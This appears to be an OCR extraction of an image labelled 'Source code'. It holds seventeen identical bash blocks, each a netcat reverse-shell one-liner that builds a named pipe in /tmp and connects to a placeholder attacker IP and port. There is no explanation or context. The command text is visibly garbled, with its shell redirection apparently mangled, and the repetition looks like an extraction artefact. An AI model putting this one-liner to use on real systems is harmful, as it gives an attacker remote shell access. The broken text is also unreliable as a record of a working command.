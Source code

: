 ```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```
